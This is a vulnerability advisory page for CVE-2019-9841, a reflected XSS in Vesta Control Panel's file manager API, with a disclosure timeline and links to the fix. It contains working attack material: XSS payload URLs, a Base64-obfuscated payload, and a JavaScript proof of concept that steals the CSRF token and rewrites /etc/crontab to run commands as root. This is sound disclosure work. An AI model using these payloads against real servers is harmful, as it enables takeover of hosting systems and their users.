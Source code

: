 ```yaml
---
title: '[CVE-2019-9841] Vesta Control Panel 0.9.8-23 — Reflected XSS in file manager API'
description: The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application.
tags: [CVE, Vesta Control Panel, XSS]
advisory:
  discovered: 2019-03-13
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-23
  tested_versions_only: false
  cve: CVE-2019-9841
---
```


## Abstract

The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application. This allows an attacker to impersonate the users of the control panel by tricking them to follow a specially crafted link while authenticated to the web application.

VestaCP users are actual system users and they have the right to manage several services on the hosting server, for example they can create and manage new databases, edit their own crontab, create and manage new mail accounts, etc. They are created by the administrator to whom VestaCP grants full access. This means that triggering the XSS from an administration session could allow an attacker to obtain root access on the hosting server.

## Details

A PHP script located at `/file_manager/fm_api.php` supposedly provides the API for the file managers plugins that can be installed in VestaCP. The script performs the requested operation then returns the result as a JSON string using `text/html` as the content type, often including an error message that reflects some of the provided arguments. By triggering an error using arguments that include a specially crafted HTTP payload it is possible to run arbitrary JavaScript code. For example:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=alert(1)+/>
```

Produces:

```json
{"result":false,"message":"Error: invalid path \/home\/admin\/<img src=x onerror=alert(1) \/>"}
```

Since the output is a JSON string, some characters are `\`-escaped. It is possible to overcome this limitation by deploying the payload as a Base64 string, for example the above is equivalent to:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('YWxlcnQoMSk='))+/>
```

This works out-of-the-box with Firefox and Edge, while Safari and Chrome block the script execution as they detect a possible XSS attempt. Hopefully some smarter payload will be able to bypass their XSS auditors.

## PoC: from XSS to root access

VestaCP acts as a wrapper around several system-level operations, the easiest way for an administrator to run a command as `root` is probably to alter the `/etc/crontab` file via the `/edit/server/cron/` page.

For example this cron job creates a file in the web server root as superuser:

```
* * * * * root id >/usr/local/vesta/web/proof
```

Most of the pages in the VestaCP web application employ a CSRF token, so in order to submit the POST form, the token must be obtained by parsing the HTML.

The following JavaScript function replaces `/etc/crontab` and restarts the cron daemon:

```js
(async () => {
    // fetch the CSRF token
    const request = await fetch('/', {credentials: 'include'});
    const text = await request.text();
    const token = text.match(/token="([^"]+)"/)[1];

    // prepare the payload
    const payload = 'id >/usr/local/vesta/web/proof';
    const config = encodeURIComponent(`* * * * * root ${payload}\n`);

    // replace the cron config file
    fetch('/edit/server/cron/', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: `token=${token}&v_config=${config}&v_restart=on&save=Save`
    });
})();
```

For completeness, this is the URL that the victim administrator needs to follow in order to trigger the PoC:

<!-- C-u M-| terser | base64 -w0 | sed 's/+/%2b/g' -->

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('KGFzeW5jKCk9Pntjb25zdCByZXF1ZXN0PWF3YWl0IGZldGNoKCIvIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUifSk7Y29uc3QgdGV4dD1hd2FpdCByZXF1ZXN0LnRleHQoKTtjb25zdCB0b2tlbj10ZXh0Lm1hdGNoKC90b2tlbj0iKFteIl0rKSIvKVsxXTtjb25zdCBwYXlsb2FkPSJpZCA%2bL3Vzci9sb2NhbC92ZXN0YS93ZWIvcHJvb2YiO2NvbnN0IGNvbmZpZz1lbmNvZGVVUklDb21wb25lbnQoYCogKiAqICogKiByb290ICR7cGF5bG9hZH1cbmApO2ZldGNoKCIvZWRpdC9zZXJ2ZXIvY3Jvbi8iLHtjcmVkZW50aWFsczoiaW5jbHVkZSIsbWV0aG9kOiJQT1NUIixoZWFkZXJzOnsiY29udGVudC10eXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgdG9rZW49JHt0b2tlbn0mdl9jb25maWc9JHtjb25maWd9JnZfcmVzdGFydD1vbiZzYXZlPVNhdmVgfSl9KSgpOwo='))+/>
```

After one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Timeline

2019-03-15
: Disclosed to the VestaCP team.

2019-03-15
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-04-12
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/c28c5d29a3c61bc8110c11349e3f2309cd537cfa) the vulnerability.

2019-04-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/e674bf14fd401f419223f1dd06a6e381a3c188a2) version 0.9.8-24.
